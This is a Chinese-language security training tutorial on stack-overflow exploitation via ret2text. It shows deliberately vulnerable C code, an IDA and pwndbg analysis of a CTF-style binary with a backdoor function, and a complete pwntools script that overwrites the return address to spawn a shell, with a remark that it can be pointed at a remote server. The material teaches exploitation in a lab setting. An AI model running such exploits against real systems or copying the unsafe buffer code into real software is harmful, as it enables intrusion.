










# 护网行动红蓝攻防教程：P91：2.ret2text

在本节课中，我们将要学习二进制漏洞利用中最基础、最常见的一种攻击手法——栈溢出（Stack Overflow），并聚焦于其最简单的利用形式：`ret2text`。我们将从栈溢出的原理讲起，逐步学习如何利用工具分析程序、定位漏洞，并最终编写攻击脚本控制程序执行流，获取目标系统的控制权。





## 栈溢出的基本原理

上一节我们介绍了程序执行的基本流程和栈的结构。本节中，我们来看看攻击者如何利用栈的机制来劫持程序。

攻击一个程序的最终目的是获取一个 `shell`。因为只要有了 `shell`，我们就拥有了操纵目标服务器的控制台。

要获得 `shell`，就需要控制程序的执行流，即让程序偏离其原本的代码路径，去执行我们指定的恶意代码。程序执行流由程序计数器（PC）寄存器决定，在32位系统中是 `EIP`，64位系统中是 `RIP`。





要控制 `EIP` 寄存器，就需要控制能为 `EIP` 赋值的数据区域。在整个栈帧结构中，**返回地址（return address）** 是唯一一个在函数返回时会被写入 `EIP` 寄存器的值。因此，栈溢出攻击的核心就是**控制这个返回地址**。

栈溢出攻击的目标是：让 `EIP` 指向我们攻击者指定的指令。而能将其值传给 `EIP` 的只有 `return address` 区域。所以，栈溢出攻击就是：**通过程序缺陷（如向定长缓冲区写入超长数据）来覆写 `return address` 区域，进而控制程序执行流**。

栈溢出是缓冲区溢出（Buffer Overflow）的一种，也是二进制漏洞中最常见、危害性最大的漏洞类型。其本质是：**向程序的定长缓冲区写入了超长的数据，造成超出的数据覆写了合法的内存区域**。

以下是会发生缓冲区溢出的C语言代码示例：
```c
#include <unistd.h>
void vulnerable() {
    char buf[8]; // 开辟一个8字节的栈缓冲区
    read(0, buf, 24); // 试图向8字节缓冲区中写入24字节数据
}
int main() {
    vulnerable();
    return 0;
}
```
这段代码中，`read` 函数试图向一个仅8字节的缓冲区 `buf` 中写入24字节数据，这会导致多出的16字节数据溢出到栈上的其他关键区域（如保存的 `EBP` 和返回地址），从而可能造成程序崩溃（`Segmentation fault`）或被攻击者利用。

栈缓冲区之所以容易发生溢出，是因为栈上直接存放了 `return address` 这个能直接控制 `EIP` 的值。相比之下，堆溢出或BSS段溢出往往需要通过更间接的手段才能控制程序执行流，因此栈溢出的危害通常更大。

## 漏洞利用工具简介

在进行实际的漏洞利用之前，我们需要熟悉一系列辅助工具。我们很难手动构造攻击数据，需要工具来帮助我们分析程序、编写脚本和动态调试。

以下是主要会用到的工具及其简介：

*   **IDA Pro**：一个强大的反汇编和反编译器。它可以将程序的机器码反汇编成汇编代码，并通过F5插件进一步反编译成近似C语言的伪代码，极大方便了我们静态分析程序逻辑、寻找漏洞。
*   **pwntools**：一个强大的Python模块，专为CTF竞赛和漏洞利用开发。它提供了连接本地/远程进程、收发数据、打包整数、生成shellcode等大量便捷功能，是编写攻击脚本的核心工具。安装命令为 `pip install pwntools`。
*   **peda / pwndbg / gef**：这些都是GDB的增强插件。GDB本身是一个功能强大的动态调试器，但原生GDB对分析没有源代码的二进制程序不太友好。这些插件增强了GDB的显示和功能（如高亮寄存器、栈、反汇编代码，集成ROP搜索等），使其更适合二进制漏洞分析。本教程推荐使用 `pwndbg`。
*   **checksec**：一个用于检查二进制文件安全保护措施的命令行工具（通常随 `pwntools` 安装）。现代操作系统和编译器引入了多种保护机制（如NX, ASLR, Canary等）来缓解内存安全问题。`checksec` 是我们拿到二进制程序后的第一步，用于了解目标开启了哪些保护。
*   **ROPgadget / ropper**：用于在二进制程序中查找可供利用的小代码片段（gadget）的工具，在讲解更高级的ROP攻击时会用到。
*   **one_gadget**：一个可以直接在libc库中查找能够直接获取shell的单一gadget地址的工具。

接下来，我们将重点学习马上要用到的两个核心工具：**IDA Pro** 和 **pwntools** 的基本用法。

## IDA Pro 基础使用

IDA Pro 是我们进行静态分析不可或缺的工具。解压后，32位程序用 `ida.exe` 打开，64位程序用 `ida64.exe` 打开。

打开一个二进制文件后，IDA会呈现主界面。左侧的 `Functions window` 列出了程序中的所有函数。右侧默认显示反汇编窗口。

最重要的功能是 **F5 键**，它可以将光标所在的函数反编译成伪C代码，极大提高代码可读性。我们寻找漏洞主要就是在这些伪C代码中进行。



例如，在一个函数中看到 `gets(buf)` 这样的调用就需要高度警惕。`gets` 函数会无限制地读取输入，直到遇到换行符或EOF，极易导致缓冲区溢出。现代编译器甚至会警告 `The ‘gets‘ function is dangerous and should not be used.`。



IDA的其他实用功能包括：
*   **对照查看**：在反汇编窗口，可以通过设置显示机器码。在伪代码窗口，可以按 `Ctrl+A` 全选代码，右键选择 `Copy to assembly`，将C代码与其对应的汇编代码并列显示，方便理解底层实现。
*   **字符串查找**：按 `Shift+F12` 可以打开字符串窗口，显示程序中所有可打印字符串。通过双击字符串可以定位到其在数据段的位置，再通过数据段的交叉引用（如 `DATA XREF`）可以快速找到使用该字符串的代码位置，这常用于定位主函数或关键逻辑。
*   **保存进度**：分析完成后，可以通过 `File -> Save database` 保存一个 `.idb` 或 `.i64` 文件，下次可直接用IDA打开此文件继续分析。

## pwntools 基础使用

`pwntools` 是编写攻击脚本的利器。首先需要在Python脚本中导入：`from pwn import *`。

建立连接有两种主要方式：
*   **本地进程**：`io = process(‘./binary_name‘)`
*   **远程连接**：`io = remote(‘ip_address‘, port)`

连接建立后，`io` 对象就代表了与这个进程的交互通道。常用的方法有：
*   **接收数据**：
    *   `io.recvline()`: 接收一行数据（直到换行符）。
    *   `io.recv(n)`: 接收n个字节的数据。
*   **发送数据**：
    *   `io.send(data)`: 发送数据（字节流）。
    *   `io.sendline(data)`: 发送数据，并在末尾自动添加换行符（`\n`）。
    *   注意：发送的数据必须是字节流。字符串前加 `b` 如 `b“hello“`，或使用 `str.encode()`。整数需要使用 `p32()` (32位) 或 `p64()` (64位) 函数打包成字节流。

一个简单的交互示例如下：
```python
from pwn import *
io = remote(‘127.0.0.1‘, 10001) # 连接远程服务
print(io.recvline()) # 接收并打印一行欢迎信息
io.sendline(b‘A‘*20 + p32(0xdeadbeef)) # 发送构造好的payload
io.interactive() # 切换到交互模式（如果攻击成功获得了shell）
```

## 实战：第一个栈溢出利用 (ret2text)

现在，我们结合工具来实战一个最简单的栈溢出漏洞利用例子——`ret2text`。`ret2text` 意指让程序返回到 `.text` 代码段中已有的函数，通常是一个现成的后门函数。

我们以 `return_to_text` 这个程序为例。首先用 `checksec` 检查保护：
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
可以看到栈保护金丝雀（Canary）未开启，地址随机化（PIE）未开启，这为我们简单的 `ret2text` 攻击提供了条件。



用IDA Pro打开程序，找到 `main` 函数，按F5反编译：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  puts("Have you heard of buffer overflow?");
  vulnerable();
  return 0;
}
```
`main` 函数调用了 `vulnerable()`。跟进 `vulnerable()` 函数：
```c
void vulnerable()
{
  char buf[8]; // [esp+0h] [ebp-8h]
  gets(buf);
}
```
这里定义了一个8字节的栈缓冲区 `buf`，并使用危险的 `gets` 函数向其写入数据，存在明显的栈溢出漏洞。


我们的目标是让程序执行已有的后门函数 `get_shell`。在IDA左侧函数窗口可以找到它，查看其地址为 `0x8048522`。该函数内容如下：
```c
int get_shell()
{
  return system("/bin/sh");
}
```
完美！这个函数会直接执行 `system(“/bin/sh”)`，给我们一个shell。





接下来需要计算需要多少数据才能覆盖到返回地址。在IDA的伪代码注释中，`buf` 位于 `[ebp-8h]`，即距离 `ebp` 8个字节。而栈帧结构从上到下（高地址到低地址）通常是：`旧ebp` -> `返回地址` -> `局部变量`。`buf` 作为局部变量在 `ebp` 下方。

我们需要填充：
1.  `buf` 本身的8字节。
2.  `buf` 到 `旧ebp` 之间的空隙。根据 `[ebp-8h]`，这个空隙为 `8` 字节（`ebp-0` 到 `ebp-8` 之间除了buf还有别的数据，这里IDA显示的是相对ebp的偏移，实际布局需动态调试确认，但计算偏移方法一致）。
3.  覆盖 `旧ebp` 本身（4字节）。
4.  最后覆盖 `返回地址`（4字节）。

因此，总填充长度应为：`8(缓冲区) + 8(空隙) + 4(旧ebp) = 20` 字节垃圾数据，然后加上 `get_shell` 函数的地址。

我们可以用GDB（配合pwndbg）动态调试来精确确认。在 `vulnerable` 函数入口下断点，运行，单步到 `gets` 调用前，查看栈布局。输入一定长度的数据（如 `cyclic 50` 生成的模式字符串），观察程序崩溃时 `EIP` 被覆盖成了什么，再用 `cyclic -l <被覆盖的值>` 计算精确偏移。本例中，假设我们通过调试确认偏移为20字节。

现在可以构造攻击载荷（payload）了：
```python
from pwn import *

# 连接程序
io = process(‘./return_to_text‘)

# 接收初始提示信息
print(io.recvline())

# 构造payload
offset = 20
get_shell_addr = 0x8048522

payload = b‘A‘ * offset # 填充垃圾数据直到返回地址之前
payload += p32(get_shell_addr) # 覆盖返回地址为get_shell函数地址

# 发送payload
io.sendline(payload)

# 切换到交互模式，此时应该已经获得shell
io.interactive()
```
运行这个脚本，如果成功，我们将获得一个本地shell，可以执行 `ls`, `pwd` 等命令。

要攻击远程服务器，只需将 `process(‘./return_to_text‘)` 替换为 `remote(‘目标IP‘, 目标端口)` 即可。

## 总结

本节课中我们一起学习了栈溢出攻击的基础 `ret2text`。我们首先理解了栈溢出控制程序执行流的原理：通过覆盖函数返回地址来劫持 `EIP`。然后，我们认识了漏洞分析利用的核心工具链：静态分析工具 IDA Pro、动态调试工具 GDB（配合增强插件）、以及攻击脚本框架 pwntools。最后，我们完成了一次完整的实战：分析一个存在栈溢出和现成后门函数的程序，计算偏移，构造payload，并最终编写脚本成功获取了shell。



`ret2text` 是最理想的情况，它要求程序中存在一个可以直接利用的后门函数。在实际场景中，这种“好事”并不常见。下一节课，我们将学习当没有现成后门时，如何利用程序中已有的代码片段（如 `system` 函数）来达成目的，即 `ret2libc` 攻击。